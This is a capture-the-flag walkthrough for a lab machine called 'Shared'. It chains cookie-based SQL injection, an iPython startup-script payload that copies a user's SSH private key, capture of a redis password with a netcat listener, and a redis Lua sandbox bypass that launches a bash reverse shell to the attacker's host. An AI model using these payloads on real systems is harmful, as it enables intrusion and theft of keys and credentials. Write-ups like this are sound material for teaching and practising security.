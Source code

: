 1 - Enumerate ports

2 - Add shared.htb to `/etc/hosts`

3 - Enumerate directories and files with [GoBuster](<General Info/Tools/Enumeracion/GoBuster.md>), after doing this enumerate subdomains with the same tool

4 - Once you've enumerated the subdomains you'll come across `checkout.shared.htb`. Add it to `/etc/hosts`

5 - Now enter a product in the cart and try to buy it, Once you've reached the checkout page look at the previously enumerated cookies and you'll see that the cookie `custom_cart` has changed and now it has in its content the name of the code of the product, so, because the checkout page makes a call to the database, its suceptible to SQLi

6 - Once you've exploited the SQLi and obtained the user and password `james_mason:Soleil101` you can enter the machine through ssh and do some more enumeration. Recommended [Things to enumerate (Machine)](<General Info/Enumeration/Things to enumerate (Machine).md>)

7 - Now that you've the machine enumerated you know that there is a directory called `scripts_review` that, because of the name, makes you think that maybe there's a process that looks for scripts in that folder.

8 - Because of the previous assumption we now can try to look for processes being run regularly on the machine by another users in order to pivot to another user. [Processes enumeration](<General Info/Enumeration/Processes enumeration.md>)

9 - Once you've detected the process that uses the directory scripts_review and you've seen what it does it's time to do some research and look for [iPython](<General Info/Tecnologias Web/iPython.md>). You'll see that the way of exploit this behavior is the one detailed in the note previously linked. The particular payload you have to use is `import os; os.system("cat ~/.ssh/id_rsa > /dev/shm/key")` and save it inside a python file called foo.py in the directory startup.

10 - The previously explained step will make the process that runs regularly create a copy of the id_rsa file in a readable file that we'll be able to use in order to enter via SSH as the user that was running the process that employed [iPython](<General Info/Tecnologias Web/iPython.md>)

11 - Now that we've the id_rsa of dan_smith you can put it in a file and change that file permissons with `chmod 600 {FILE}` and, after doing all that, execute the ssh client with the following command `ssh -i {KEY-FILE} dan_smith@{IP56}`

12 - Now that you're connected to the machine you can try to enumerate everything to find ways of performing a privilege escalation. The way to find the escalation factor is by doing a `id` command and, once you see you're in the sysadmin group, execute the following command `find / -group sysadmin` in order to find the file `redis_connector_dev` and play with it

13 - The main function of that file is auth to the redis server and gather all the info of it, so, what we can do in order to get the password of the redis service is:
	13.1 - Get the file to our computer by running: `scp -i {KEY_FILE} {USER}@{IP}:{FILE_PATH} {LOCAL_PATH}`
	13.2 - Once the file is in our computer run a netcat server in the redis port: `nc -lvpn 6379`
	13.3 - Run the file in order to get the credentials used by the app in the redis server of the victim's machine

14 - Once you've done the previous step and you've got the password `F2WHqJUz2WEz=Gqq` for the redis service you can try multiple attacks listed in the hacktricks page of redis pentesting
	14.1 - One attack that could work on a redis service could be the one that is carried out in the ssh service by creating a key pair of your own machine and uploading the public key to the authorized keys of the root user in order to get credentials over the root account in the ssh service
	14.2 - Another attack (The one applied in this machine particularly) is the LUA Sandbox Bypass, attack that gives you command execution as the user who runs the redis service (Root in this case). The code to make this happen is:
	```eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("bash {PATH TO FILE WITH REV_SHELL}", "r"); local res = f:read("*a"); f:close(); return res' 0```
	This attacks require you to previously make a file that contains a simple bash script like this one in the specified path:
```
#!/bin/bash

bash -i >& /dev/tcp/{HACKER'S IP}/{PORT} 0>&1
```
	Clearly you've to have your machine listening on the specified port

15 - Now you should have your reverse shell as root in the netcat window